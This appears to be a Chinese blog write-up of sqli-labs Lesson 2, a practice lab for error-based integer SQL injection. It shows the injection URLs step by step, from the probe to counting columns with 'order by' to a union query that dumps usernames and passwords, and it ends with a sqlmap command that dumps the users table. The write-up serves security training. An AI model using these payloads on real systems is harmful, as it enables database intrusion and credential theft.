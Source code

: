 ```yaml
---
title: sqli-labs lession 2 (基于错误的GET整型注入)
date: 2018-09-18 20:23:34
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs lession 2 (基于错误的GET整型注入) #
---
## 登录界面 ##

![1](/img/sql/lesson2/1.png)

## 手注 ##

### 判断注入类型 ###

根据题目提示尝试一下整型注入

`http://10.60.250.214/Less-2/?id=1%20and%201=2`

![2](/img/sql/lesson2/2.png)

果然存在注入点！！

### 获取数据值 ###

这里只是$id的获取方式变化了,查看源码就可以发现SQL变成如下形式了,其他都一样。

![3](/img/sql/lesson2/3.png)

可以构造如下:

`http://10.60.250.214/Less-2/?id=1%20order%20by%204%23`

![4](/img/sql/lesson2/4.png)

`http://10.60.250.214/Less-2/?id=1%20order%20by%203%23`

![5](/img/sql/lesson2/5.png)

这里可以判断出字段数目

`http://10.60.250.214/Less-2/?id=-1%20union%20select%201,2,3%23`

![6](/img/sql/lesson2/6.png)

这些步骤和Lesson-1一致,可以查看这里。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1 %}

直接上图吧。

`http://10.60.250.214/Less-2/?id=-1%20union%20select%201,2,group_concat(username,%27:%27,password)%20from%20users%23`

![7](/img/sql/lesson2/7.png)

## SQLMAP ##

与Lesson-1基本一致,具体流程可以查看这里。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1 %}

这里只填写最后一步。

`sqlmap -u "http://10.60.250.214/Less-2/?id=1" --batch -D security -T users --columns --dump`

![8](/img/sql/lesson2/8.png)

![9](/img/sql/lesson2/9.png)